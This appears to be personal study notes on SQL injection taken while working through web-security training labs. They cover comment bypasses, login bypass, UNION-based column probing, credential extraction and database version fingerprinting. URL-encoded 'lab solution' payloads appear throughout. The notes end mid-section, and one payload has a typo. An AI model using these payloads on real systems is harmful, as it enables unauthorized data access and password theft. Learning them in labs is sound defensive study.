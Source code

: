 # SQL Injection

SQL injection allows an attacker to interfere with the queries an app makes to its DB, often allowing an attacker to view data they're not normally able to retrieve. A successful SQL injection attack can result in unauthorized access to sensitive data. Sometimes an attacker can obtain a persisten backdoor into an org's sytems leading to long-term compromise.

## Examples

### Retrieving hidden data

An e-commerce app could use a query like this to get details:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`.

If it uses a query string to identify which category to pull from, you could construct an attack like `/products?category=Gifts'--`. This will give the query 
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`. As `--` means a comment, the rest of it won't get executed.

You could also do `?category=Gifts'+OR+1=1--` which will result in this query: `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` which will return anything from the category Gifts or 1 is equal to 1. Since `1=1` is true, the query will return all items.

### Subverting application logic

In a (very insecure) application that stores a password as plain text, you could log in as anybody by setting your username as `administrator'--`. This assumes the query is `SELECT * FROM users WHERE username = 'person' AND password='something'`. Using the `--` comments out the password check.

### Retrieving data from other database tables

You can use the `UNION` keyword to get data from other tables. If an app has a query like this: `SELECT name, description FROM products WHERE category = 'Gifts'` you could submit the input `' UNION SELECT username, password FROM users--` to get the usernames and passwords and products too.

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

To do this this involves figuring out:

- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

#### Determining the number of columns required in an SQL injection UNION attack

The first method to do this involves injecting a series of `ORDER BY` clauses and incrementing the specified index until an error occurs. So for example, `' ORDER BY 1--` or `' ORDER BY 2--` etc...

These payloads modify the original query to order the results by different columns in the result set. When you go over the number of columns in the result set, you'll get an error saying you're out of range. You probs won't see this error explicitly, but as long as you can detect a difference you're golden.

The other method is similar but looks like `UNION SELECT NULL,NULL--`

Lab solution: `/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,NULL,NULL--`

#### Finding columns with a useful data type in an SQL injection UNION attack

A SQL injection UNION attack lets you retrieve the results from an injected query. Most interesting data is string, so you need to find one or more columns in the original query results whose data type is compatible with string data. Since we know the number of columns, you can probe each column to test if it can hold string data with a series of `UNION SELECT` payloads that put a string value into each column. Assuming we have four columns:

```SQL
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL'a'--
```

If the data type is not compatible with string data, the injected query will return a DB error. If no errors, then the column is suitable for retrieving string data.

Lab solution: `filter?category=Accessories%27+UNION+SELECT+NULL,%27gzOzw7%27,NULL--`

#### Using an SQL injection UNION attack to retrieve interesting data

When you've found the number of columns, and found which columns can store data, you can find something interesting! Suppose that:

- the original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause
- The db contains a table class called `users` with the columns `username` and `password`. You could retrieve the contents by submitting `' UNION SELECT username, password FROM users--`

#### Retrieving multiple values within a single column

Suppose the query only returns one column. You can retrieve multiple values together by concatenating the values together with a seperator to distinguish the values. On Oracle: `' UNION SELECT username || '~' || password FROM users--`

`filter?category=Pets%27%20ORDER%20BY%202--` to get column count (2)
`filter?category=Pets%27+UNION+SELECT+NULL,%27a%27--` to find that the second column has text
`filter?category=Pets%27%20UNION%20SELECT%20null,username%20||%20%27~%27%20||%20password%20FROM%20users--`

### Examining the db

After you've identified a SQL injection vuln, you might wanna get more info about the db. You might say like `SELECT * FROM information_schema.tables` to get the table info. Or for an Oracle DB you'd say `SELECT * FROM v$version` to get the db type. You can use this to identify other DB types too.

#### Querying the db type and version

Different DBs provide diff ways of querying their version.

Microsoft, MySQL: `SELECT @@version`
Oracle: `SELECT * FROM v$version`
PostgreSQL `select version()`

You can combine this with a `UNION` attack like `' UNION SELECT @@version--`

Note: With Oracle DBs, you need to specify a table `FROM`. Luckily, Oracle has a built in table called `DUAL` you can use for this.

Lab 1: `filter?category=Gifts%27%20UNION%20SELECT%20BANNER,NULL%20FROM%20v$version--`
Lab 2: `filter?category=Pets%27%20UNION%20SELECT%20null,@@version--+` (needs a space cos MySQL)

#### Listing contents of database

Most DBS (except Oracle) have a set of views called the info schema which gives info on the db.